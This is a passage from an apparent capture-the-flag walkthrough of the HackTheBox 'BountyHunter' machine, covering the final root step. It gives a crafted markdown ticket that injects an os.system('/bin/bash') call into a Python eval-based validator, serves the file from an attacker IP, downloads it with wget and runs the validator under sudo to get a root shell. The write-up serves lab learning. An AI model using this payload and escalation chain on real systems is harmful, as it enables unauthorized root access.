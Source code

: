 ```python
    ticket.close

main()
```

Reviewing the above code, you can **create a markdown file** to achieve the following command execution, `exploit.md`

```markdown
# Skytrain Inc

## Ticket to root

**Ticket Code:**  
\*\*102 + 10 == 112 and **import**('os').system('/bin/bash') == False
```

```bash
python -m http.server 80
```

```
cd /tmp
wget http://10.10.15.162/exploit.md
chmod 777 exploit.md
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
/tmp/exploit.md
```

<a href="/assets/images/htb-machine-bountyhunter/htb-machine-bountyhunter_root.png"><img src="/assets/images/htb-machine-bountyhunter/htb-machine-bountyhunter_root.png"></a>
